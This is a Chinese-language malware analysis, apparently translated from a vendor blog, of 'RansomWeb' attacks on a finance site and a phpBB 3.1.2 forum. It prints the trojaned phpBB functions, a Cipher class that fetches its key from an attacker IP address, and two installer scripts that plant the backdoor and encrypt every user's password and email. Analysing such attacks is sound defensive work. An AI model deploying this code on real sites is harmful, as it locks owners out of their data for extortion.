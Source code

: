 # RansomWeb:一种新兴的web安全威胁

0x00 前言
=====

目前越来越多的人称为勒索软件的受害者，恶意软件会加密你的计算机直到你愿意交保护费，最新的趋势发现，网站已经成为犯罪分子的攻击目标，犯罪软件会加密你的数据库直到你付钱。

![enter image description here](http://drops.javaweb.org/uploads/images/0be4d10e719c148ae6ee30cd8824027fc8b28f11.jpg)

source https://www.htbridge.com/blog/ransomweb_emerging_website_threat.html

0x01 守候
=====

2014.12.** 我们的安全专家在一个理财网站上发现一个很有趣的案例:网站一直显示无法连接数据库，而网站管理员收到一封勒索邮件，“给钱，然后我们会给你数据库解锁”。

遇到这种类型攻击的网站都是一些小型站点，但是公司的重点业务运营都是围绕网站进行了，停了分分钟几万，chinese一点地话来说，“互联网公司”。

我们认真的进行了调查，发现一下几点特点：

1 web应用程序在半年前被入侵，攻击者修改了一些需要进行数据库操作的脚本，在插入数据时对数据进行加密，在查询数据时对数据进行解密。整个过程 用户没有感到任何异样。

2 只对关键的数据库表被进行加密，将对网站性能的影响降到了最低，并且加密了之前被存入的数据库记录。

3 加密密钥被储存在远程服务器上，只能通过https访问（一定可能性是为了防止被拦截）

4 在这6个月，黑客默默地守候着网站，当一些升级和运维行为时对服务器进行备份。

5 在xxx天后，黑客关闭远程服务器，同时网站停止服务，and收到一封饱含着爱意的恶意邮件。

0x02 另一个案例
=====

我们一开始相信这是一个针对部分公司进行的apt行为，属于一个特殊的个别案例，不过后来发现我们错了，上周我们又发现一个相似的例子，来自我们的另一个客户。他收到了一个勒索邮件。。。在他的phpbb论坛失灵之后。对于客户来说这个phpBB是一个非常重要的平台，版本还是2014年11月25日发布的phpBB 3.1.2 最新版。

最早问题来之于当时没有一个用户可以登录论坛，包括版主和管理员，用户的认证功能已经失效，在我们的调查下发现，登录时需要的密码和邮箱验证在插入数据裤的时候经过了一次加密。

我们发现下列文件遭到了修改。

1. factory.php
--------------

* * *

函数sql_fetchrow()遭到了修改，在进行sql查询

```
$result = $this->get_driver()->sql_fetchrow($query_id);

```

password 和 email字段会经过一次解密。

```
if(isset($result['user_password'])){ 
 $result['user_password'] = $cipher->decrypt($result['user_password']); 
} 
if(isset($result['user_email'])){ 
 $result['user_email'] = $cipher->decrypt($result['user_email']); 
}

```

2. functions_user.php
---------------------

* * *

函数 user_add 经过修改之后 添加数据时会被加密

```
$sql_ary = array( 
 'username'=>$user_row['username'], 
 'username_clean' => $username_clean, 
 'user_password' => (isset($user_row['user_password']))? 
    $cipher->encrypt($user_row['user_password']):$cipher->encrypt(''), 
 'user_email'=> $cipher->encrypt(strtolower($user_row['user_email'])), 
 'user_email_hash'=> phpbb_email_hash($user_row['user_email']), 
 'group_id' => $user_row['group_id'], 
 'user_type' => $user_row['user_type'], 
);

```

3. cp_activate.php
------------------

* * *

main 函数遭到修改

```
$sql_ary = array( 
 'user_actkey' => '', 
 'user_password' => $cipher->encrypt($user_row['user_newpasswd']), 
 'user_newpasswd' => '', 
 'user_login_attempts' => 0, 
);

```

4. ucp_profile.php
------------------

* * *

main函数。。。

```
if (sizeof($sql_ary)) 
{ 
 $sql_ary['user_email'] = $cipher->encrypt($sql_ary['user_email']); 
 $sql_ary['user_password'] = $cipher->encrypt($sql_ary['user_password']);
 $sql = 'UPDATE ' . USERS_TABLE . ' 
  SET ' . $db->sql_build_array('UPDATE', $sql_ary) . ' 
  WHERE user_id = ' . $user->data['user_id']; 
 $db->sql_query($sql);

```

5. config.php
-------------

* * *

```
class Cipher { 
 private $securekey, $iv; 
 function __construct($textkey) { 
  $this->securekey = hash('sha256',$textkey,TRUE); 
  $this->iv = mcrypt_create_iv(32); 
 } 
 function encrypt($input) { 
  return base64_encode(mcrypt_encrypt(MCRYPT_RIJNDAEL_256, 
       $this->securekey, $input, MCRYPT_MODE_ECB, $this->iv)); 
 } 
 function decrypt($input) { 
  return trim(mcrypt_decrypt(MCRYPT_RIJNDAEL_256, 
       $this->securekey, base64_decode($input), MCRYPT_MODE_ECB, $this->iv)); 
 } 
} 
$key=file_get_contents('https://103.13.120.108/sfdoif89d7sf8d979dfgf/ 
sdfds90f8d9s0f8d0f89.txt'); 
$cipher=new Cipher($key);

```

一个值得注意的是，我们发现黑客留下的两个可以自动化安装后门的脚本，可以对任意phpbb论坛植入后门程序，只需要几下点击，第一个修改 “config.php” 添加 cipher类在脚本中，其中可以看到 储存在远程服务器上的 密钥。

安装文件

```
<?php 
$file = '../config.php'; 
$txt = "\n".'class Cipher { 
 private $securekey, $iv; 
 function __construct($textkey) { 
  $this->securekey = hash(\'sha256\',$textkey,TRUE); 
  $this->iv = mcrypt_create_iv(32); 
 } 
 function encrypt($input) { 
  return base64_encode(mcrypt_encrypt(MCRYPT_RIJNDAEL_256, 
     $this->securekey, $input, MCRYPT_MODE_ECB, $this->iv)); 
  } 
 function decrypt($input) { 
  return trim(mcrypt_decrypt(MCRYPT_RIJNDAEL_256, 
     $this->securekey, base64_decode($input), MCRYPT_MODE_ECB, $this->iv)); 
 } 
} 
$key=file_get_contents(\'https://103.13.120.108/sfdoif89d7sf8d979dfgf/ 
sdfds90f8d9s0f8d0f89.txt\'); 
$cipher=new Cipher($key);'."\n"; 
if( FALSE !== file_put_contents($file, $txt, FILE_APPEND | LOCK_EX)){ 
 echo "DONE!"; 
};

```

第二个安装文件加密所有用户的 email和password，并替换上述文件。

```
<?php 
define('IN_PHPBB', true); 
$phpbb_root_path = (defined('PHPBB_ROOT_PATH')) ? PHPBB_ROOT_PATH : '../';
$phpEx = substr(strrchr(__FILE__, '.'), 1); 
include($phpbb_root_path . 'common.' . $phpEx); 
include($phpbb_root_path . 'includes/functions_display.' . $phpEx); 
$sql = 'SELECT user_id, user_password, user_email FROM ' . USERS_TABLE; 
$result = $db->sql_query($sql); 
while ($row = $db->sql_fetchrow($result)) 
{ 
 $sql2 = 'UPDATE ' . USERS_TABLE . ' 
  SET 
   user_password = "'.$cipher->encrypt($row['user_password']).'", 
   user_email = "'.$cipher->encrypt($row['user_email']).'" 
  WHERE user_id = '.$row['user_id']; 
 $result2 = $db->sql_query($sql2); 
} 
echo "SQL UPDATED!<br>"; 
copy('factory.php', '../phpbb/db/driver/factory.php'); 
copy('functions_user.php', '../includes/functions_user.php'); 
copy('ucp_activate.php', '../includes/ucp/ucp_activate.php'); 
copy('ucp_profile.php', '../includes/ucp/ucp_profile.php'); 
echo "FILES UPDATED!”;

```

接着攻击者等待两个月，就从远程服务器中取出密钥。

0x03 结论
=====

我们称这种攻击为 RansomWeb , 我们做了一个简要的分析：

RansomWeb 的特点

1 与ddos不同，这种攻击会对网站的可用性造成长时间的巨大影响。

2 不仅可以用于勒索，还可以用于其他很多用途。

3 不给钱想从攻击中恢复很困难。

RansomWeb 的弱点

1 做下文件监控就好了

2 在不对网站造成影响的情况下加密极其困难。

3 定期检测更新